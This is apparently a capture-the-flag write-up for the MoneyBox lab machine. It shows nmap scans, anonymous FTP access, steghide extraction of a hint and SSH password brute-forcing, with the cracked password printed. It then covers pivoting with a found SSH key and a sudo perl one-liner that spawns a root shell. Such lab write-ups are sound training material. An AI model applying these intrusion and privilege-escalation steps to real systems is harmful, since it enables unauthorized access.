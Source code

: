 First enumeration with nmap

```shell
# Nmap 7.94 scan initiated Thu Aug 24 01:45:04 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 21,22,80 -Pn 192.168.211.230
Nmap scan report for 192.168.211.230
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.241
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0         1093656 Feb 26  2021 trytofind.jpg
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1e:30:ce:72:81:e0:a2:3d:5c:28:88:8b:12:ac:fa:ac (RSA)
|   256 01:9d:fa:fb:f2:06:37:c0:12:fc:01:8b:24:8f:53:ae (ECDSA)
|_  256 2f:34:b3:d0:74:b4:7f:8d:17:d2:37:b1:2e:32:f7:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: MoneyBox
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 24 01:45:18 2023 -- 1 IP address (1 host up) scanned in 13.86 seconds
```

### Enumerating FTP (21)

```shell
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PG/MoneyBox]                            
└─$ ftp 192.168.211.230
Connected to 192.168.211.230.                                                      
220 (vsFTPd 3.0.3)                                                                 
Name (192.168.211.230:n16hth4wk): anonymous                               
331 Please specify the password.                                                                                                                                       
Password:                                                                          
230 Login successful.                                                              
Remote system type is UNIX.                                                        
Using binary mode to transfer files.  
ftp> ls -al                                                                        
229 Entering Extended Passive Mode (|||29407|)
150 Here comes the directory listing.                                                                                                                                  
drwxr-xr-x    2 0        0            4096 Feb 26  2021 .
drwxr-xr-x    2 0        0            4096 Feb 26  2021 ..                         
-rw-r--r--    1 0        0         1093656 Feb 26  2021 trytofind.jpg
226 Directory send OK.                                                             
ftp> get trytofind.jpg
local: trytofind.jpg remote: trytofind.jpg
229 Entering Extended Passive Mode (|||8004|)
150 Opening BINARY mode data connection for trytofind.jpg (1093656 bytes).         
100% |**************************************************************************************************************************|  1068 KiB  256.19 KiB/s    00:00 ETA
226 Transfer complete.                                                             
1093656 bytes received in 00:04 (246.44 KiB/s)
ftp> put fulltcp.txt                                                               
local: fulltcp.txt remote: fulltcp.txt
229 Entering Extended Passive Mode (|||20443|)                                     
550 Permission denied. 
```
we have anonymous login on ftp, we got to see an image file, download the image file, tried to upload a file into the ftp, failed.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/e9473429-fd2d-41f8-adb3-232c1ca0b23f)

noticed a webserver running on port 80, opening it on a browser, we got directed to an homepage talking about the box. let's try keep it simple and don't overthink.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/da5a3433-fb9c-4fef-9fb9-cb53ed8000e1)

first we start fuzzing the web page, we got a dir `blogs`, 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/b4eefafc-b600-411f-8c05-06d4a1bb10b9)

Navigating to the `/blogs` dir, we got to see that the hacker's talking about a misconfiguration that lead to the hack. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/8b86ca2c-d29e-471e-a527-be674af3c24c)

checking the source code of the page, we can see a hint telling us to got to `S3cr3t-T3xt` dir. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/74f5ee7d-ff9f-4dd2-9792-8c2a0f447af4)

Navigating to the dir, we got a response that there's nothing on the webpage. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/bfd2f28b-2595-4856-821b-653eefadfe73)

checking the source code, we get to see a passphrase, remember there was an image file we downloaded from ftp earlier.let's use steghide to extract the content of the image file.

```shell
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PG/MoneyBox]
└─$ steghide extract -sf trytofind.jpg
Enter passphrase: 
wrote extracted data to "data.txt".
                                                                                                                                                                       
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PG/MoneyBox]
└─$ cat data.txt   
Hello.....  renu

      I tell you something Important.Your Password is too Week So Change Your Password
Don't Underestimate it.......
```
we extracted the content and read the content of the file, it was talking about a user `renu` having a weak password, 🤔 weak password?, let's try bruteforce ssh password for user `renu`. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/f9c3f94b-dce0-4f37-9c29-0458b109e2dd)

cool we got the ssh password for user renu. `renu:987654321`. let's login. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/43fb39da-3b8f-4449-80ed-62e9a09103f4)

Bankai!!! we are in. 


## Privilege Escalation 

```shell
renu@MoneyBox:~$ cat .bash_history                                                                                                                              [44/44]
[***]
cd /home
ls               
cd lily
ls       
ls -la
clear                         
cd     
clear
ssh-keygen -t rsa       
clear  
cd .ssh         
ls                           
ssh-copy-id lily@192.168.43.80  
clear                                                                              
cd                                                                                 
cd -                                                                               
ls -l                                                                              
chmod 400 id_rsa                                                                   
ls -l                             
ssh -i id_rsa lily@192.168.43.80                                                   
clear                                                                              
ssh -i id_rsa lily@192.168.43.80                                                                                                                                       cd                                                                                                                                                                     clear                                                                              
cd .ssh/
renu@MoneyBox:~$ ls -al .ssh/
total 20
drwx------ 2 renu renu 4096 Feb 26  2021 .
drwxr-xr-x 5 renu renu 4096 Oct 11  2022 ..
-r-------- 1 renu renu 1823 Feb 26  2021 id_rsa
-rw-r--r-- 1 renu renu  393 Feb 26  2021 id_rsa.pub
-rw-r--r-- 1 renu renu  222 Feb 26  2021 known_hosts
renu@MoneyBox:~$ cat /home/lily/au
cat: /home/lily/au: No such file or directory
renu@MoneyBox:~$ cat /home/lily/.ssh/authorized_keys 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDRIE9tEEbTL0A+7n+od9tCjASYAWY0XBqcqzyqb2qsNsJnBm8cBMCBNSktugtos9HY9hzSInkOzDn3RitZJXuemXCasOsM6gBctu5GDuL882dFgz962O9TvdF7JJm82eI
iVrsS8YCVQq43migWs6HXJu+BNrVbcf+xq36biziQaVBy+vGbiCPpN0JTrtG449NdNZcl0FDmlm2Y6nlH42zM5hCC0HQJiBymc/I37G09VtUsaCpjiKaxZanglyb2+WLSxmJfr+EhGnWOpQv91hexXd7IdlK6hhUOff5yNx
lvIVzG2VEbugtJXukMSLWk2FhnEdDLqCCHXY+1V+XEB9F3 renu@debian
renu@MoneyBox:~$  
```
checking the `.bash_history` file of user renu, we can see we can ssh into user `lily` with our id_rsa key file. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/608f0261-d3e8-4aad-b6c7-1db3de8e6979)

Bankai!!! we are in as user `lily`, let's escalate privs further.

```
lily@MoneyBox:~$ sudo -l
Matching Defaults entries for lily on MoneyBox:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lily may run the following commands on MoneyBox:
    (ALL : ALL) NOPASSWD: /usr/bin/perl
lily@MoneyBox:~$
```
checking for sudo permissions for user `lily` we can see we are allowed to run `/usr/bin/perl` as root without password. 

```shell
lily@MoneyBox:~$ sudo -u root /usr/bin/perl -e 'exec "/bin/bash"'
root@MoneyBox:/home/lily# whoami 
root
root@MoneyBox:/home/lily# cd
root@MoneyBox:~#
```
abusing the privilege, we spawned a root shell. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/3525ea84-851a-42bd-a7fd-291b65cf1b18)

And we are through!!! 😜 we kept it simple yeah!!! 
